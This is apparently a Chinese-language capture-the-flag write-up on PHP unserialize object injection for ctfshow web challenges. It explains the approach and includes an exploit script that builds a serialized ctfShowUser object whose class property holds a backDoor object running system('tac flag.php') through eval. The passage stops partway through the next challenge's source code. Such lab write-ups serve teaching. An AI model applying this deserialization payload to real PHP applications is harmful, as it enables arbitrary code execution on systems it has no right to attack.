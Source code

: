 #### 解析

这道题本身留了后门代码，我的思路是 backdoor 与 info 有相同函数，在销毁时统一调用， class  变量单独留出来了，我们可以直接操控 class 变量，让 class 直接等于backdoor这个类。原本在思考 __construct怎么绕过，发现写出exp可以直接用。

exp

?username=xxxxxx&password=xxxxxx

```php
<?php

use backDoor as GlobalBackDoor;
use ctfShowUser as GlobalCtfShowUser;

class ctfShowUser{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public $isVip=true;
    public $class;

}

class backDoor{
    public $code = 'system("tac flag.php");';
    public function getInfo(){
        eval($this->code);
    }
}

$a = new GlobalBackDoor;
$b = new GlobalCtfShowUser;
$b->class=$a;
echo(urlencode(serialize($b)));
```



![](WEBRESOURCE41ff9ff7cf694900a7a6988954d959da.png)









## web258



#### 源代码

```php
<?php

error_reporting(0);
highlight_file(__FILE__);

class ctfShowUser{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public $isVip=false;
    public $class = 'info';

    public function __construct(){
        $this->class=new info();
    }
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
```